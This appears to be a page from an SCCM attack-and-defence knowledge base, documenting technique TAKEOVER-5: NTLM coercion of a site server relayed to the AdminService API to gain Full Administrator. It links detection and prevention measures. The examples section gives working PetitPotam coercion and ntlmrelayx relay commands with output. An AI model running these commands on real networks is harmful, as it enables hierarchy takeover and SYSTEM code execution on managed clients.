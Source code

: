 ```yaml
---
title: 'TAKEOVER-5'
description: 'Hierarchy Takeover via NTLM coercion and relay to AdminService on remote SMS Provider'
source: 'subat0mik/Misconfiguration-Manager'
---
```


## MITRE ATT&CK TTPs
- [TA0008](https://attack.mitre.org/tactics/TA0008) - Lateral Movement
- [TA0004](https://attack.mitre.org/tactics/TA0004) - Privilege Escalation

## Requirements

### Coercion
- Valid Active Directory domain credentials
- Connectivity to SMB (TCP/445) on a coercion target:
    - TAKEOVER-5.1: Coerce primary site server 
    - TAKEOVER-5.2: Coerce passive site server
- Connectivity from the coercion target to SMB (TCP/445) on the relay server
- Coercion target settings:
    - `BlockNTLM` = `0` or not present, or = `1` and `BlockNTLMServerExceptionList` contains attacker relay server [DEFAULT]
    - `RestrictSendingNTLMTraffic` = `0`, `1`, or not present, or = `2` and `ClientAllowedNTLMServers` contains attacker relay server [DEFAULT]
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains coercion target [DEFAULT]

### Relay
- Connectivity from the relay server to HTTPS (TCP/443) on the relay target hosting the SMS Provider role
- Relay target domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains relay target [DEFAULT]
    - `LmCompatibilityLevel` < `5` or not present, or = `5` and LmCompatibilityLevel >= `3` on the coercion target [DEFAULT]

## Summary
The SMS Provider is a SCCM site server role installed by default on the site server when configuring a primary site or central administration site. The role can optionally be installed on additional SCCM site systems for high availability configurations. The SMS Provider is a Windows Management Instrumentation (WMI) provider that performs as an intermediary for accessing and modifying data stored in the site database. Access to the SMS Provider is controlled via membership of the the `SMS Admins` local security group on each site server. The site server computer account is a member of the `SMS Admins` security group on each SMS Provider in a site by default.

The SMS Provider also provides access to the site database via the administration service (AdminService) REST API and uses Microsoft Negotiate for authentication. In default configurations, the AdminService is vulnerable to NTLM relay attacks.

## Impact
This technique may allow an attacker to relay a site server's domain computer account to a remote SMS Provider and elevate their privileges to "Full Administrator" for the SCCM hierarchy. If successful, this technique enables an attacker to execute arbitrary programs on any client device that is online as SYSTEM, the currently logged on user, or as a specific user when they next log on.

## Defensive IDs
- [DETECT-1: Monitor site server domain computer accounts authenticating from another source](../../../defense-techniques/DETECT/DETECT-1/detect-1_description)
- [DETECT-5: Monitor group membership changes for SMS Admins](../../../defense-techniques/DETECT/DETECT-5/detect-5_description)
- [DETECT-5: Monitor group membership changes for RBAC_Admins table](../../../defense-techniques/DETECT/DETECT-6/detect-6_description)
- [PREVENT-9: Enforce MFA for SMS Provider calls](../../../defense-techniques/PREVENT/PREVENT-9/prevent-9_description)
- [PREVENT-20: Block unnecessary connections to site systems](../../../defense-techniques/PREVENT/PREVENT-20/prevent-20_description)

<Note>
Extended Protection for Authentication (EPA) is not currently supported by the AdminService (as of March 2024), so cannot be configured to prevent relay to the AdminService.
</Note>

## Subtechniques
- TAKEOVER-5.1: Coerce primary site server
- TAKEOVER-5.2: Coerce passive site server

## Examples

1. Use `SCCMHunter` to profile SCCM infrastructure:
    ```
    [02:00:25 PM] INFO     [+] Finished profiling all discovered computers.                                   
    [02:00:25 PM] INFO     +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
                        | Hostname                | SiteCode   | SigningStatus   | SiteServer   | ManagementPoint   | DistributionPoint   | SMSProvider   | WSUS   | MSSQL   |
                        +=========================+============+=================+==============+===================+=====================+===============+========+=========+
                        | provider.internal.lab   | None       | False           | False        | False             | False               | True          | False  | False   |
                        +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
                        | sccm.internal.lab       | LAB        | False           | True         | True              | False               | True          | False  | False   |
                        +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+       
    ```

2. On the attacker relay server, start `ntlmrelayx` (currently, Garrett Foster's [fork/pull request here](https://github.com/fortra/impacket/pull/1593) must be used until it is merged into impacket), targeting the URL of the AdminService API on the remote SMS Provider identified in the previous step, and provide a target account to add as a Full Administrator:
    ```
    └─# python3 ntlmrelayx.py --adminservice --logonname "lab\specter" --displayname "lab\specter" --objectsid <USER SID> -smb2support -t https://SMS_PROVIDER_URL_OR_IP/AdminService/wmi/SMS_Admin
    Impacket v0.10.1.dev1+20230802.213755.1cebdf31 - Copyright 2022 Fortra

    [*] Protocol Client SMB loaded..
    [*] Protocol Client IMAP loaded..
    [*] Protocol Client IMAPS loaded..
    [*] Protocol Client RPC loaded..
    [*] Protocol Client DCSYNC loaded..
    [*] Protocol Client MSSQL loaded..
    [*] Protocol Client LDAP loaded..
    [*] Protocol Client LDAPS loaded..
    [*] Protocol Client SMTP loaded..
    [*] Protocol Client HTTP loaded..
    [*] Protocol Client HTTPS loaded..
    [*] Running in relay mode to single host
    [*] Setting up SMB Server
    [*] Setting up HTTP Server on port 80
    [*] Setting up WCF Server
    [*] Setting up RAW Server on port 6666
    ```

3. From the attacker host, coerce NTLM authentication from the site server via SMB, targeting the relay server's IP address:
    ```
    ┌──(root㉿DEKSTOP-2QO0YEUW)-[/opt/PetitPotam]
    └─# python3 PetitPotam.py -u lowpriv -p P@ssw0rd <NTLMRELAYX_LISTENER_IP> <SITE_SERVER_IP> 

    Trying pipe lsarpc
    [-] Connecting to ncacn_np:10.10.100.121[\PIPE\lsarpc]
    [+] Connected!
    [+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
    [+] Successfully bound!
    [-] Sending EfsRpcOpenFileRaw!
    [-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
    [+] OK! Using unpatched function!
    [-] Sending EfsRpcEncryptFileSrv!
    [+] Got expected ERROR_BAD_NETPATH exception!!
    [+] Attack worked!
    ```

    After a few seconds, you should receive an SMB connection on the relay server that is forwarded to the AdminService on the SMS Provider to add a Full Administrator:
    ```
    ┌──(adminservice)─(root㉿DEKSTOP-2QO0YEUW)-[/opt/adminservice/examples]


    [*] Servers started, waiting for connections
    [*] SMBD-Thread-5 (process_request_thread): Received connection from 10.10.100.121, attacking target https://provider.internal.lab
    [*] Exiting standard auth flow to add SCCM admin...
    [*] Authenticating against https://provider.internal.lab as LAB/SCCM$
    [*] Skipping user SCCM$ since attack was already performed
    [*] Server returned code 201, attack successful
    ```

4. Confirm that the account now has the `Full Administrator` role by querying WMI on an SMS Provider:
    ```
    $ python3 sccmhunter.py  admin -u specter -p <PASSWORD> -ip SITE-SMS          

    [14:16:54] INFO     [!] Enter help for extra shell commands                                                                                                                                              
    () (C:\) >> show_admins
    [14:17:11] INFO     Tasked SCCM to list current SMS Admins.                                                                                                                                              
    [14:17:12] INFO     Current Full Admin Users:
    [14:17:13] INFO     lab\Administrator 
    [14:17:13] INFO     lab\specter 
    ```

## References
- Garrett Foster, [SCCMHunter](https://github.com/garrettfoster13/sccmhunter)
- Garrett Foster, [Site Takeover via SCCM's AdminService API](https://posts.specterops.io/site-takeover-via-sccms-adminservice-api-d932e22b2bf)
- Microsoft, [Plan for the SMS Provider](https://learn.microsoft.com/en-us/mem/configmgr/core/plan-design/hierarchy/plan-for-the-sms-provider)
- Microsoft, [What is the administration service in Configuration Manager?](https://learn.microsoft.com/en-us/mem/configmgr/develop/adminservice/overview)
